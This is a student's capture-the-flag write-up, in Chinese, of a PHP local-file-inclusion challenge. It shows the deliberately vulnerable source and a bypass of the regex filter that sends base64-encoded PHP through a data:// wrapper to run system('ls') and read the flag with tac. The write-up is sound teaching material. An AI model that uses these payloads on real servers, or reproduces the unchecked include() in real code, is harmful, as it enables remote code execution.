


## babyfile
##### 罗承煜 523031910624

### 题目源代码
```
<?php
if(isset($_GET['file'])){
    $file = $_GET['file'];
    if(preg_match("/php|\!|\~|\@|\#|\\$|\%|\^|\&|\*|\(|\)|\-|\_|\=|\+|\./i", $file)){
        die("HACKER");
    }
    include($file);
}else{
    highlight_file(__FILE__);
}
?> 
```

### 代码分析
本题代码量较少，逻辑也较为简单，通过GET方式传入file的值，经过preg_match的过滤，并```include($file)```

```include``` 传入的文件参数变量支持：绝对路径、相对路径、协议
    include "config.php";
    include "./config.php";
    include "/var/www/html/config.php";
    include "file:///var/www/html/config.php

本地文件包含漏洞利用需要考虑的事情
▪ 包含的文件类型：文件内容中是否包含代码？
▪ 包含的文件路径：是否需要和代码中原有的路径进行拼接？
▪ 包含的文件权限：是否有权限读取?
读取本地敏感文件内容
▪文件中无脚本代码，那么文件内容可以直接显示在页面上

当然如果file的内容本身就是一段完整的php代码，也是可以执行的，如
```
    <?php system('ls'); ?>
    <?php system('cat flag'); ?>
```

### 思路分析
首先，我不知道任何关于这道题背后文件的关系，甚至不知道flag存在什么文件中，此时，如何实现```ls```至关重要
就像我说的，如果我能传入完整的php代码，include会帮我执行这段代码，所以我可以想办法传入```<?php system('ls'); ?>```
但如何绕过preg_match的过滤呢？显然用特殊符号的url编码是不行的，那不妨试一试base64编码？
把```<?php system('ls'); ?>```放入cyberchef中，得到base64编码为
```PD9waHAgc3lzdGVtKCdscycpOyA/Pg==```
url可以为?file=data://text/plain;base64,(base64编码放这里)
这样php语言会把传入的base64编码转换成php语言执行
还有一件事：'='会被preg_match过滤，有两种绕过方法：
    1、直接删掉，在base64转回php代码时，会自动补齐缺的=
    2、看似比较麻烦但感觉有点妙的方法：在```<?php system('ls'); ?>```的代码后加若干个#（注释符），让转base64时不需要=补齐
试一试：

成功得到了flag所在的文件名：```f10g_b026324c6904b2a9cb4b88d6d61c81d1.php```

下一步，自然是把这个文件cat出来：
试试```<?php system('cat f10g_b026324c6904b2a9cb4b88d6d61c81d1.php'); ?>```
转base64 -> 去掉等号 -> 上传
但是屏幕上什么都没有，难道是cat被禁止了？试试tac：

得到flag :```MKCTF{Simple_1nclude_Vuln3r4b1l1ty}```
